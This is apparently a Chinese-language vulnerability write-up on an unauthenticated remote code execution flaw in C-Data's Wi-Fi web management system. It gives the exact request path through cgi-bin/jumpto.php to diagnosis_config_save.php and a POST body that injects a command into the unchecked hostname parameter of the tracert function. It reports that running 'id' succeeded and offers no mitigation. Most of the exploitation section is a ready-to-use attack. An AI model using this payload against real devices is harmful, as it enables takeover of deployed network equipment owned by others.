


# C-Data Wi-Fi Web管理系统存在未授权RCE漏洞

## 一、漏洞描述

        C-Data是一家提供主流接入网技术所需全线产品的高科技企业。在中国市场，C-Data拥有电信、广电、驻地网运营商、系统集成商等众多品牌客户，产品销售更是覆盖世界各地，在南美洲、非洲、东欧、东南亚、亚太地区近百个国家的运营商网络、企业网络中得到了广泛应用。

        而其提供的Wi-Fi Web管理系统存在未授权远程代码执行漏洞，攻击者通过漏洞可以获取服务器权限。


## 二、定位漏洞点

在cgi-bin 目录下 jumpto.php 可以通过拼接GET参数，跳转到同级目录下的php或html文件


同级目录中的diagnosis目录下的diagnosis_config_save.php文件中提供了tracert功能，其代码如下：




在指定call_function为tracert时，该函数接受post的iface参数与hostname参数，拼接指令并执行。然而此处对传进来的iface与hostname参数都没有进行校验，因此可以通过构造阶段从而实现任意命令执行。

## 三、漏洞利用

根据漏洞点构造发包请求，将其设置为POST请求包，

设置GET参数使得能够从jumpto.php跳转到diagnosis_config_save.php

```
cgi-bin/jumpto.php?class=diagnosis&page=config_save&isphp=1
```

设置POST参数使得可以执行ping命令并对其截断从而执行任意命令

```
call_function=tracert&iface=eth0&hostname=127.0.0.1;cmd
```

漏洞利用结果如下，成功执行id指令，返回被攻击端的用户id：

